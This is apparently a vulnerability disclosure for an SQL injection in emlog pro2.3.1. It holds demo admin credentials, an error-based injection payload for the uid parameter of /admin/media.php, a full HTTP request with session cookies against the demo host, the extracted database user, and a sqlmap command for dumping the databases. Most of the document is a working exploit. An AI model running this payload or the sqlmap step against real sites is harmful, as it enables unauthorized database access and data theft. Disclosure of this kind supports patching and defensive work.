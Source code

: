 ## Vulnerability Title: SQL injection vulnerabilities in emlog

- #### Vulnerability Type: SQL Injection
- #### Vendor Homepage: https://www.emlog.net/
- #### Software Link: https://github.com/emlog/emlog
- #### Affected Software/Version: pro2.3.1

## Application Demo and credentials

- URL   
https://demo.emlog.cn/admin/account.php?action=signin   
username:emlog   
password:emlogpro   

## Technical Details & Exploit:
- parameter   
  uid   
- payload   
  `uid=1+AND+GTID_SUBSET(CONCAT(0x7E,(SELECT+(ELT(2908=2908,user()))),0x7E),2908)`
- Request message：   
```
GET /admin/media.php?uid=1+AND+GTID_SUBSET(CONCAT(0x7E,(SELECT+(ELT(2908=2908,user()))),0x7E),2908) HTTP/2
Host: demo.emlog.cn
Cookie: PHPSESSID=olin640b9imq8if8g6hrs0thq0; EM_AUTHCOOKIE_hua9xrHVX4Cn8wWSnuX5vdPuy8NNnCeu=emlog%7C1743216985%7Cc724c92f1e862be91d66b3ca6475682d
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/jxl,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Sec-Gpc: 1
Referer: https://demo.emlog.cn/admin/media.php?active_del=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```
- Server response   
  we got the current_user :
  `demo_emlog_cn@localhost`
<img width="1035" alt="image" src="https://github.com/fubxx/CVE/assets/135971045/30382685-36cf-4ada-9ae4-bb1eb4f70c2f">
  We can also directly use the sqlmap tool to obtain database data：      
  `python3 sqlmap.py -r 1.txt --dbs --batch`    
  <img width="993" alt="image" src="https://github.com/fubxx/CVE/assets/135971045/ee892f8e-6079-4d4c-95f9-58d15ce3f513">
- location on web application   
  <img width="1282" alt="image" src="https://github.com/fubxx/CVE/assets/135971045/057a206e-e732-4a3c-9d5f-a3cfea2dd2f2">
  